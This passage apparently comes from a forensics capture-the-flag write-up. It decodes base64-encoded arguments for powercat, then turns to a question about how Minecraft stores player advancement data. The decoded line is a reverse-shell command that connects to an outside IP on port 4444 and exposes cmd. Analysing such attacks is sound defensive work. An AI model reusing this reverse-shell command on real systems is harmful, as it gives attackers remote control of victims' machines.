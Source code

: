 Decode base64 string that we will have all the arguments that will be passed to powercat

```
-c 192.168.191.253 -p 4444 -e cmd
```

> Q15: Hello (New) World -> How many dimensions (including the overworld) did the player travel to in the "oldest of the worlds"?

We will need a little bit of research about how Minecraft keep track and store advancement of each user which will lead us to this [fandom wiki](https://minecraft.fandom.com/wiki/Advancement/JSON_format)

![5594fd3aee3486086de7963a6031eb39.png](/_resources/5594fd3aee3486086de7963a6031eb39.png)

To end this game, user has to go to "Nether" and "The End" and kill the ender dragon, so an advancement that close to these activities would be this
